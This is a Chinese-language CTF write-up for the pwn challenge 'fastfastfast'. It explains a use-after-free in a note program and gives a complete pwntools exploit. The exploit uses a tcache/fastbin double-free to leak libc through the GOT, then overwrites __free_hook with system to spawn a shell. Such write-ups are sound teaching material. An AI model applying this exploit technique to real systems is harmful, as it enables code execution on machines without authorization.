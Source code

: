 ```yaml
---
title: '[xyctf] fastfastfast'
date: 2024-08-17 13:00:00 +0800
categories: [ctf,pwn]
tags: [uaf,fast_bin_attack,tcache,leak_libc]
---
```


```shell
[*] '/home/bamuwe/fastfastfast/vuln'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x3fd000)
```

> $ checksec ./vuln

```shell
1. create note
2. delete note
3. show content
>>>
```

> $ ./vuln

```c
void __cdecl delete()
{
  unsigned int idx; // [rsp+Ch] [rbp-14h] BYREF
  unsigned __int64 v1; // [rsp+18h] [rbp-8h]

  v1 = __readfsqword(0x28u);
  puts("please input note idx");
  __isoc99_scanf("%u", &idx);
  if ( idx <= 0xF )
    free(note_addr[idx]);
  else
    puts("idx error");
}
```

> delete()漏洞函数,没有清除指针

```python
def add(idx,content):
    io.sendlineafter(b'>>>',b'1')
    io.sendlineafter(b'idx\n',str(idx))
    io.sendlineafter(b'content\n',content)
    
def free(idx):
    io.sendlineafter(b'>>>',b'2')
    io.sendlineafter(b'idx\n',str(idx))
    
def show(idx):
    io.sendlineafter(b'>>>',b'3')
    io.sendlineafter(b'idx\n',str(idx))
```

> 交互函数

程序逻辑:

1. `add()`堆块大小固定`0x71`
2. `free()`后没有清空指针

利用思路:

1. 填满`tcache_bin`构造`fast_bin_attack`,将堆块放在原来有`libc_addr`的地方,泄露出`libc_addr`

   ```python
   for i in range(9):
       add(i,b'a')
   
   for i in range(7):
       free(i)
   free(7)
   free(8)
   free(7)
   ```

   ![image-20240503134919203](../assets/img/old_imgs/image-20240503134919203.png)

   要利用`fastbin_attack`要先把`tcachebin`中的堆块利用

   ```python
   for i in range(7):
       add(i,b'a')
   ```

   ![image-20240503135100011](../assets/img/old_imgs/image-20240503135100011.png)

   ```python
   add(7,p64(0x4040A8))
   ```

   修改`fd`为目标地址,关于这个地址后文说明

   ![image-20240503135226136](../assets/img/old_imgs/image-20240503135226136.png)

   再申请三个堆块就可以得到目标`chunk`

   ```python
   add(8,b'a')
   add(9,b'b')
   add(10,p64(0)*3+p64(elf.got['free']))   #?
   show(0)
   #leak_libc
   free_addr = u64(io.recv(6).ljust(8,b'\x00'))
   lib_base = free_addr-lib.sym['free']
   free_hook_addr = lib_base+lib.sym['__free_hook']
   sys_addr = lib_base+lib.sym['system']
   success(hex(free_addr))
   success(f'free_hook_addr=>{hex(free_hook_addr)}')
   ```

   得到`libc`这里`p64(0)*3+p64(elf.got['free'])`应该是堆块结构有关

2. 修改`__free_hook`地址上的内容为`system`地址,构造`system(/bin/sh)`,得到`shell`

   ```python
   for i in range(9):
       add(i,b'/bin/sh\x00')
   for i in range(7):
       free(i)
   free(7)
   free(8)
   free(7)
   
   for i in range(7):
       add(i,b'a')
   add(7,p64(free_hook_addr))
   add(8,b'a')
   add(9,b'/bin/sh\x00')
   add(10,p64(sys_addr))
   free(9)
   ```

   利用手法同上

关于地址`0x4040A8`:

这是存贮堆块列表的地址,即变量`note_addr`的地址,覆盖其上堆块内容,再打印出来

![image-20240503140252580](../assets/img/old_imgs/image-20240503140252580.png)

exp:

```python
#GNU C Library (Ubuntu GLIBC 2.31-0ubuntu9.7) stable release version 2.31.
from pwn import *
context.terminal = ["tmux", "splitw", "-h"]
context.log_level = 'debug'
io = gdb.debug('./vuln','b *0x401564')
# io = remote('gz.imxbt.cn',20788)
elf = ELF('./vuln')
lib = ELF('./libc-2.31.so')

def add(idx,content):
    io.sendlineafter(b'>>>',b'1')
    io.sendlineafter(b'idx\n',str(idx))
    io.sendlineafter(b'content\n',content)
    
def free(idx):
    io.sendlineafter(b'>>>',b'2')
    io.sendlineafter(b'idx\n',str(idx))
    
def show(idx):
    io.sendlineafter(b'>>>',b'3')
    io.sendlineafter(b'idx\n',str(idx))
    
for i in range(9):
    add(i,b'a')

for i in range(7):
    free(i)
free(7)
free(8)
free(7)

for i in range(7):
    add(i,b'a')

add(7,p64(0x4040A8))
add(8,b'a')
add(9,b'b')
add(10,p64(0)*3+p64(elf.got['free']))   #?
show(0)
#leak_libc
free_addr = u64(io.recv(6).ljust(8,b'\x00'))
lib_base = free_addr-lib.sym['free']
free_hook_addr = lib_base+lib.sym['__free_hook']
sys_addr = lib_base+lib.sym['system']
success(hex(free_addr))
success(f'free_hook_addr=>{hex(free_hook_addr)}')

for i in range(9):
    add(i,b'/bin/sh\x00')
for i in range(7):
    free(i)
free(7)
free(8)
free(7)

for i in range(7):
    add(i,b'a')
add(7,p64(free_hook_addr))
add(8,b'a')
add(9,b'/bin/sh\x00')
add(10,p64(sys_addr))
free(9)

io.interactive()
```

